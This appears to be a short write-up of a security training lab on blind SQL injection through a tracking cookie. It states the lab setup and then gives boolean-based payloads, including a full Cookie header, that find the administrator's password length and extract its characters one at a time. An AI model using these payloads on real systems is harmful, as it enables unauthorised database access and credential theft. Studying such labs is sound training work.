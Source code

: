 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

```sql
SELECT * FROM tracking_table WHERE trackingId=""
```

exists = Welcome back
dosen`t exists = no Welcome back

```bash
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)=§1§)='a'--;
```

```bash
' AND (SELECT substring(password, 1,1) FROM users WHERE username='administrator')='a'--;
```

Cookie: TrackingId=citATd8xWkRQ8F98' AND (SELECT substring(password,§1§,1) FROM users WHERE username='administrator')='§a§'--; session=0q1EeuzSERoSEhWNpbnu6ZD9PqnJ1Xgy
